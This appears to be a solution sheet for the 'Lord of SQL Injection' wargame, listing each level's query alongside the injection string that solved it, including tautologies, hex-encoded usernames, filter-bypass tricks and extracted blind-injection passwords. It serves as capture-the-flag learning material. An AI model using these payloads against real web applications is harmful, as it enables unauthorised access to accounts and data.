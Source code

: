 # Lord-of-Sql-injection

gremlin

prob : select id from prob_gremlin where id='' and pw=''

solve : ?id=' or 1=1%23


cobolt

prob : select id from prob_cobolt where id='' and pw=md5('')

solve : ?id=' or id='admin'%23


goblin

prob : select id from prob_goblin where id='guest' and no=

solve : ?no=' or id=0x61646d696e


orc(blind)

prob : select id from prob_orc where id='admin' and pw=''

solve : ?pw=095a9852


wolfman

prob : select id from prob_wolfman where id='guest' and pw=''

solve : ?pw=%27||id=0x61646d696e%23


darkelf

prob : select id from prob_darkelf where id='guest' and pw=''

solve : ?pw=%27||id=0x61646d696e%23


orge(blind)

prob : select id from prob_orge where id='guest' and pw=''

solve : ?pw=7b751aec


troll

prob : select id from prob_troll where id='ADmin'

solve : ?pw=AdMin


vampire

prob : select id from prob_vampire where id=''

solve : ?id=adadminmin


skeleton

prob : select id from prob_skeleton where id='guest' and pw='' and 1=0

solve : ?pw=' or id='admin'%23


golem(blind)

prob : select id from prob_golem where id='guest' and pw=''

solve : ?pw=77d6290b


darknight(blind)

prob : select id from prob_darkknight where id='guest' and pw='' and no=

solve : ?pw=0b70ea1f


bugbear(blind)

prob : select id from prob_bugbear where id='guest' and pw='' and no=

solve : ?pw=52dc3991


giant

prob : select 1234 from{$_GET[shit]}prob_giant where 1

solve : ?shit=%0b,?shit=%0c


assasin 

prob : select id from prob_assassin where pw like ''

solve : ?pw=%E%D%

memo : a% , %a , %a%


zombie_assassin

prob : select id from prob_zombie_assassin where id='' and pw=''

solve : pass

memo : %bf' or 1=1--%20 -> %20--1=1 ro '%bf


succubus(pass)

nightmare(pass)


xavis(blind)

prob : select id from prob_xavis where id='admin' and pw=''

solve : ?pw=우왕굳

memo : 한글 ascii




